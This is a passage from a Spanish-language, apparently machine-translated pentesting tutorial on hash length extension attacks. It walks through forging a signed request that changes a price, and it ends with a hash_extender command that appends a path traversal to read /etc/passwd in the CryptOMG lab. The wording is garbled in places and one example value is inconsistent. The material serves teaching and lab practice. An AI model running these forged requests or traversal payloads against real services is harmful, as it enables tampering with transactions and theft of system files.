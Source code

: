 Pedir:

```
stock_quantity=20&price=1000
```

Picadillo:

```
[secretpass|stock_quantity=20&price=1000|padding] => Hash1/State1
```

Solicitud final:

```
stock_quantity=20&price=1000&hash=Hash1
```

> Si un atacante logra identificar la longitud del relleno, tendrá toda la información necesaria para calcular un nuevo hash.

Hash de ataque:

```
[secretpass|stock_quantity=20&price=1000|padding|&price=100]
```

Hash de ataque:

```
[State1|&price=10]=>Hash2/State2
```

Solicitud final:

```
stock_quantity=20&price=1000+padding&price=100&hash=Hash2
```

Además, los cálculos requeridos durante los ataques de extensión de longitud de hash:

```
https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks
```

### Escenario de extensión de longitud de hash <a href="#hash-length-extension-scenario" id="hash-length-extension-scenario"></a>

* https://github.com/SpiderLabs/CryptOMG

El desafío 5 es lo que necesitamos para presenciar cómo se puede realizar una extensión de longitud de hash

Intentemos leer el contenido de /etc/passwd ejecutando el ataque

No necesitamos saber el valor secreto que se está utilizando. Solo necesitamos adivinar con éxito la longitud del secreto.

Para esta tarea podemos utilizar **hash\_extender**:

```
#  https://github.com/iagox86/hash_extender
# The specify a known hash value
# The specify an estimation regarding the secrets length (between 10 and 40 bytes)
# We will have to experiment with the amount of ../../ to be used

./hash_extender -f sha1 --data 'test' -s <hash> --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > payloads.out
```
